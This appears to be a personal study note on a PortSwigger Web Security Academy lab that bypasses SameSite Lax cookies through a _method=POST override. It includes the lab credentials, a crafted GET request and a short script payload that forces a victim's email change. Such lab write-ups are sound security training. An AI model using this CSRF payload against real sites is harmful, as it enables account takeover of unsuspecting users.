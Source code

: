 ```yaml
---
tags:
  - PRACTITIONER
  - Lax
Link:
  - "[[CSRF]]"
External Link:
  - https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override
---
```


# `SameSite` Lax bypass via method override
---

- **Info:**
	- Vulnerable parameter - email change functionality
	- Goal - exploit the CSRF vulnerability to change the email address of the victim user
	- creds - `wiener:peter`

-  **Analysis:**
	- In order for CSRF attack to be possible:
		- A relevant action - ***email change functionality***
		- Cookie-based session handling - ***session cookie***
		- No unpredictable request parameters - satisfied

- **`SameSite` Lax bypass**
	1. **Study the change email function**
		- Doesn't contain any unpredictable tokens
		- The website doesn't explicitly specifies `SameSite` restrictions when setting session cookies
	2. **Bypass the `SameSite` restrictions**
		- Change request method
		- Overriding the method by adding the `_method` parameter to the query string
			```html
			GET /my-account/change-email?email=foo%40web-security-academy.net&_method=POST HTTP/1.1
			```
	3. Craft an exploit
		```html
		<script>
		
			document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned%40normal-user.net&_method=POST"
		
		</script>
		```


